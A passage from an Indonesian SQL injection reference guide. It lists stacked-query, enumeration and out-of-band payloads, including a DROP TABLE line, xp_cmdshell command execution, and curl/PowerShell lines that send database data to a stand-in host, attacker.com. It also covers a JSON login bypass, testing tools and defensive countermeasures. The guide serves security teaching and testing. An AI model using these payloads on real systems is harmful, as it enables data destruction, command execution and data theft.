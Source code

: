 - MySQL (jika `allow_multi_statements` aktif):  
  `1; DROP TABLE users --`
- MSSQL:  
  `1; EXEC xp_cmdshell('whoami') --`

### e. Advanced Enumeration

- OS dari server: `SELECT @@version_compile_os` _(MySQL)_
- Privilege user: `SELECT super_priv FROM mysql.user WHERE user='root'`

### f. Out-of-Band Lanjutan

- PostgreSQL:  
  `COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/?data=' || version()`
- MSSQL:  
  `; EXEC xp_cmdshell 'powershell Invoke-WebRequest http://attacker.com/?data=...';`

---

## 5. SQL Injection pada Format Khusus

### a. JSON-based SQLi

Contoh bypass pada API:

```json
{ "username": "admin' --", "password": "anything" }
```

### b. GraphQL Injection

Menyisipkan query SQL di field GraphQL yang langsung diteruskan ke DB.

---

## 6. Tools Populer untuk SQL Injection

| Tool               | Deskripsi                                                                  |
| ------------------ | -------------------------------------------------------------------------- |
| **sqlmap**         | Tool open-source paling populer dan kuat untuk otomatisasi SQL Injection.  |
| **jSQL Injection** | Tool berbasis Java dengan GUI untuk mempermudah proses pengujian.          |
| **Burp Suite**     | Proxy serbaguna dengan scanner yang dapat mendeteksi kerentanan SQLi.      |
| **OWASP ZAP**      | Alternatif open-source untuk Burp Suite, bagus untuk menemukan kerentanan. |

---

## 7. Catatan Keamanan & Penanggulangan

- Gunakan _prepared statements_ / _parameterized queries_.
- Lakukan validasi input dan gunakan _whitelisting_.
- Batasi pesan error yang ditampilkan ke user.
- Terapkan prinsip _least privilege_ pada akun DB.
- Gunakan WAF dan _input filtering_ yang tepat.

---
